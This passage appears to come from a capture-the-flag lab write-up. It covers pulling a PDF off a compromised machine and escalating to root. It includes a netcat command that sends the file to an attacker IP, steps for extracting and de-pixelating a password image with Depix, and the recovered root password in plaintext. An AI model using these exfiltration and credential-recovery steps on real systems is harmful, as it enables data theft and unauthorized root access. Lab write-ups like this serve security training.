  
# Sender (on shell):
nc -w 3 10.10.14.77 12345 < 'Using OpenVAS.pdf'

# Receiver (on local machine):
nc -lp 12345 > output.pdf

Root Privilege Escalation
•	The PDF contained a pixelated password for the root account.
•	De-pixelated the password using the Depix tool:
1.	Extracted the image using pdfimages:
  
 
pdfimages output.pdf pix
2.	Used Depix to reconstruct the password.

<img width="860" height="920" alt="image" src="https://github.com/user-attachments/assets/aebe8036-4477-4148-8aba-340abddaa4e5" />

•	Root Password: sidefromsidetheothersidesidefromsidetheotherside
•	Logged in as root and retrieved root.txt.
 



